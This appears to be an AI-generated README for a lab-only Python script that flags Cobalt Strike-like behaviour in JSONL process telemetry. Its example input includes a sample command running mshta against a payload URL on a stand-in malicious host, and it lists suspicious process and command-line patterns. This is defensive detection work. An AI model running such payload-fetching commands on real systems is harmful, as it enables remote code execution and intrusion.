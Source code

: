 Absolutely! Here's a professional **README-style explanation** you can use for your GitHub repo for the Cobalt Strike detection script:

---

# Cobalt Strike Detection Script

**Cobalt Strike Detection** is a Python-based script designed to detect potential Cobalt Strike activity in a controlled lab or test environment. It analyzes process telemetry and command-line data to flag suspicious behavior commonly associated with Cobalt Strike operations.

> ⚠️ **Safety Notice:** This script is intended for lab or simulated environments only. Do **not** use it on production systems or for offensive operations.

---

## Features

* Lightweight Python script with minimal dependencies (Python 3.8+).
* Detects suspicious process execution patterns (e.g., `powershell.exe`, `rundll32.exe`, `mshta.exe`).
* Flags suspicious command-line arguments (encoded commands, `Invoke-Expression`, Base64 downloads).
* Correlates events by process ID to prioritize high-confidence alerts.
* Configurable alert threshold to balance sensitivity and noise.

---

## Telemetry Streams

The script correlates events from **process execution telemetry**:

* **Process Execution**: Parent/child relationships, unusual processes spawned from Microsoft Office or other hosts.
* **Command-line / Script Execution**: Encoded commands, PowerShell `Invoke-Expression`, or Base64-encoded downloads.

> The script currently uses JSONL (JSON Lines) format for input, one JSON object per event.

---

## Example Input (JSONL)

```json
{"TimeCreated":"2025-09-20T12:00:00Z","ProcessId":1234,"ParentImage":"C:\\Program Files\\Microsoft Office\\root\\Office16\\WINWORD.EXE","Image":"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe","CommandLine":"powershell -enc ..."}
{"TimeCreated":"2025-09-20T12:01:00Z","ProcessId":1235,"ParentImage":"explorer.exe","Image":"mshta.exe","CommandLine":"mshta http://malicious.example.com/payload.hta"}
```

---

## Usage

```bash
python detect_cobaltstrike.py --events process_events.jsonl --threshold 4
```

* `--events`: Path to JSONL file containing process events.
* `--threshold`: Optional integer to adjust alert sensitivity (default: 4).

---

## Output

For each flagged process, the script prints:

```
PID:1234 Score:6 Reasons:child_susp_host,susp_cmdline
PID:1235 Score:5 Reasons:child_susp_host
```

* **Score**: Combined heuristic score for suspicious activity.
* **Reasons**: Indicators contributing to the score.

---

## Installation

1. Ensure Python 3.8+ is installed:

```bash
python --version
```

2. Clone the repository:

```bash
git clone https://github.com/YourUsername/cobaltstrike-detector.git
cd cobaltstrike-detector
```

3. Place JSONL telemetry files in the repo or provide a path.

---

## Contributing

* Pull requests welcome for new heuristics or telemetry sources.
* Please maintain lab-only safety and avoid offensive capabilities.

---

## License

This project is provided for **educational and lab purposes only**. Use at your own risk. Recommended license: MIT.
